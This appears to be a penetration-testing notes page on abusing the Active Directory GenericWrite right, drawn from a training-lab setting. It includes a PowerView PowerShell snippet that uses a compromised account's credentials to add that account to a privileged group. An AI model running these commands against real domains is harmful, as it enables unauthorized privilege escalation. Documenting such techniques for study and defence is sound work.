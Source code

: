 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# GenericWrite

## General

<table><thead><tr><th width="151">Right</th><th width="116">Value</th><th>Description</th></tr></thead><tbody><tr><td>GenericWrite</td><td>131112</td><td>The right to read permissions on this object, write all the properties on this object, and perform all validated writes to this object.</td></tr></tbody></table>

## Exploitation

### Over a User

#### Targeted Kerberoasting

Check [here](genericall.md#targeted-kerberoasting).

#### Targeted ASREPRoasting

Check [here](genericall.md#targeted-asreproasting).

### Over a Group

#### Adding Group Member

<figure><img src="../../../../.gitbook/assets/genericwrite_group_bh.png" alt=""><figcaption><p>Figure 1: GenericWrite of a user over a group.</p></figcaption></figure>

{% code overflow="wrap" %}
```powershell
# creating a SecureString Object for the owned user
$SecPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
$Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)

# add the compromised user to the group
Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose 

# confirm that damundsen was added to the group
Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName
```
{% endcode %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#genericwrite" %}
{% endtab %}
{% endtabs %}
